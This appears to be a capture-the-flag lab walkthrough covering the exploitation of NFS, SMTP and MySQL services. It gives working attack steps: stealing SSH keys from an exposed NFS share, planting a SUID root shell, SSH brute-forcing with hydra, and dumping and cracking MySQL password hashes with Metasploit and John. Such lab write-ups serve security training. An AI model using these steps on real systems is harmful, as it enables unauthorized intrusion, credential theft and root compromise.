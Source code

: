 
## NFS Exploit

#### Enumeration

- First step is Enumeration, run an nmap scan :
  `$ nmap -A -p- [IP] -vv` - takes a long time and scans all ports
  `$ nmap -sC [IP] -vv` - takes less time but will not scan all ports 
  so we find `7` open ports and the port that has `NFS` protocol is `2049` 
- make sure you have `nfs-common` module installed (`sudo apt install nfs-common`)
   now run the command `$ showmount -e [IP]` to show the name of shares which is `/home` 
- now do `mkdir /tmp/mount` - create a new directory called mount in /tmp (keep in mind that on restarting the mount will be lost because /tmp acts as `cache memory`)
- now mount the /home into /tmp/mount by running the command :
	`$ sudo mount -t nfs [IP]:/home /tmp/mount` - /home is share name
- once its mounted and we go into /mount we can see a new folder is created called `cappucino` which looks like a user's home directory 
- we find a `.ssh` folder containing `id_rsa` so we can login through ssh by doing 
	`$ ssh -i id_rsa cappucino@[IP]` 
#### Exploiting NFS

*MAP*
```
NFS Access ->
        Gain Low Privilege Shell ->
            Upload Bash Executable to the NFS share ->
                Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->
                    Login through SSH ->
                        Execute SUID Bit Bash Executable ->
                            ROOT ACCESS
```

- now change directory to where we mounted the share and here we need to download the `bash shell executable` from [bash](https://github.com/polo-sec/writing/tree/master/Security%20Challenge%20Walkthroughs/Networks%202) by doing wget.
- the bash shell should be owned by root user so do `$ sudo chown root bash` 
- now to add SUID bit permission to bash executable , we do `$ sudo chmod +s bash` followed by `$ sudo chmod +x bash` 
- now ssh into the user by doing `$ ssh -i id_rsa cappucino@[IP]` and do ls and see if bash is there
- now run it as `$ ./bash -p` and we get the FLAG
---
### SMTP Exploit

#### Enumeration

- First we run nmap scan on target IP as `$ nmap -sC [IP] -vv` , we see 2 open ports and SMTP running on port 25.
- here metasploit comes in clutch because it has a module `smtp_enum` which just takes host, wordlist as parameters and does the work for us.
- from cmd line we can access with `msfconsole` 
> `search smtp_enum`
> `use 0` 
> `options`
> `set RHOST [IP]`
> `set USER_FILE /usr/share/seclists/Usernames/top-usernames-shortlist.txt`
> `run` 

- with these commands the module takes like a minute and finds the valid username - `administrator` 

#### Exploiting SMTP

- now we have username, and from port scan we know that the only other open port is an ssh login, so we try to `bruteforce` the password for ssh login using `hydra`.
- `hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV [IP] ssh`
- we get password as `alejandro`
- then do ssh login by `ssh administrator@[IP]` and `cat smtp.txt`.
---

### MySQL Exploit

#### Enumeration

- first do `sudo apt install default-mysql-client` , lets assume we found credentials `"root:password"` after enumerating sub-domains of a server and had unsuccessful attempts at ssh login.
- so now we try it against `mysql`, so run nmap scan `$ nmap -sC -sV [IP] -vv` , we see port `3306` is running mysql server.
- let's double check the credentials by manually connecting to mysql server by `$ mysql -h [IP] -u root -p` and now when prompted to enter password, enter `password` and it is successfully connected to mysql server.
- now launch up `msfconsole` which is basically `metasploit` and do
> `search mysql_sql`
> `use 0`
> `options`
> `set username root` , `set password password` 
> `set RHOSTS [IP]`
> `set sql show databases`
> `run` - shows 4 databases

#### Exploiting MySQL

- first in `msfconsole` search for module `mysql_schemadump` and set the relevant options i.e the credentials and RHOST and run it, we see all the table names.
- now we use `mysql_hashdump` module and set the relevant options and run it and we see a non-default user called `carl` which can be a username and beside it is a hash in the format `carl:*EA45SF3276DGHT blah blah` .
- save this in local directory as `hash.txt` and crack this hash using `john the ripper` by doing :
	`$ john hash.txt` - hence password obtained is `doggie` 
- what are the chances that this user has reused passwords for a different service?
	pretty much possible so let's try doing an ssh login with these credentials
	`$ ssh carl@[IP]` and when prompted for password: `doggie` and do ls and print the flag from `MySQL.txt` 
---
